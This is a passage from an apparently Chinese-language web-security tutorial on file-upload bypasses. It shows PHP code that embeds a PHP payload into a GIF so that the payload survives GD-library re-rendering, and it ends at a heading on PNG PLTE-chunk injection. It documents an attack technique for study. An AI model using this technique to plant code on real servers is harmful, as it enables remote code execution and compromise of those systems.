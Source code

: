 ```php
    $_color_chunks=str_split($colors_hex[$i], 2); 
    $color=imagecolorallocate($im,hexdec($_color_chunks[0]),hexdec($_color_chunks[1]),hexdec($_color_chunks[2])); 
    imagesetpixel($im,$i,1,$color); 
  } 
	imagegif($im,$_file); 
?>
```
 经过一番尝试，找到一个合适的GIF图片，并将PHP代码写入(Payload长度达到了64，还可以继续追加)：  
![image.png](./文件上传.assets/2023_05_19_14_38_13_2JjOmkh5.png)
 然后将生成的example.gif文件使用GD库渲染得到新图exploit.gif：  
```php
<?php
	$gif = imagecreatefromgif('example.gif');
	imagegif($gif, 'exploit.gif');
	imagedestroy($gif);
?>
```
 重新渲染后，完全就是一样的GIF:  
![image.png](./文件上传.assets/2023_05_19_14_38_13_q7vdjfeY.png)
 最终也是达到了可以指定GIF图、指定Payload的效果。  
#### PNG 二次渲染
**写入PLTE数据块**
